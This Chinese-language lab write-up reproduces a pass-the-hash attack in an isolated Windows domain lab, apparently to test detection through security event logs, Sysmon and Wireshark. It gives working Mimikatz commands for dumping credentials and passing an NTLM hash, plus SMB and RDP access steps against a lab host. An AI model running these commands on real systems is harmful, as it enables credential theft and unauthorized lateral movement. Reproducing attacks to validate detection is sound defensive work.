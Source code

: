 ## 测试复现

### 环境准备
- **域控制器（DC）**：Windows Server 2008 R2。
- **靶机（PC1）**：Windows Server 2008 R2（目标主机）。
- **攻击机（PC2）**：Windows 7。
- **权限**：本地或域管理员权限（提取哈希）。
- **工具**：
  - Mimikatz（https://github.com/gentilkiwi/mimikatz）。
  - Sysmon（监控进程和网络活动）。
  - Wireshark（捕获网络流量）。
- **网络**：隔离网络环境，允许TCP 445流量。
- **日志**：启用Windows安全日志（事件ID 4624、4625）、Sysmon日志和网络日志。

### 攻击步骤
1. **提取NTLM哈希**：
   - 在攻击机（PC2）以管理员权限运行Mimikatz：
     ```bash
     mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
     ```
   - 获取目标账户（如`xiaomi.org\Administrator`）的NTLM哈希，例如：
     ```plaintext
     NTLM: 762c6fa6a9adb2f5ff215484bd8296b7
     ```
2. **执行PtH攻击**：
   - 使用Mimikatz进行哈希传递：
     ```bash
     mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:xiaomi.org /ntlm:762c6fa6a9adb2f5ff215484bd8296b7" exit
     ```
   - 成功后，Mimikatz将启动一个新进程（如`cmd.exe`），使用提供的哈希进行认证。
3. **验证访问**：
   - 使用新进程访问目标主机（PC1）：
     ```bash
     net use \\192.168.66.100\IPC$
     dir \\192.168.66.100\C$
     ```
   - 或通过RDP登录：
     ```bash
     mstsc /v:192.168.66.100
     ```
4. **验证结果**：
   - 检查PC1的安全日志，确认事件ID 4624（成功登录）或4625（失败登录）。
   - 使用Wireshark捕获TCP 445流量，验证NTLM认证。
   - 验证Sysmon日志是否记录Mimikatz进程和网络连接。
5. **清理**：
   - 断开SMB连接：
     ```bash
     net use \\192.168.66.100\IPC$ /delete
     ```
   - 删除Mimikatz：
     ```bash
     del C:\Temp\mimikatz.exe
     ```
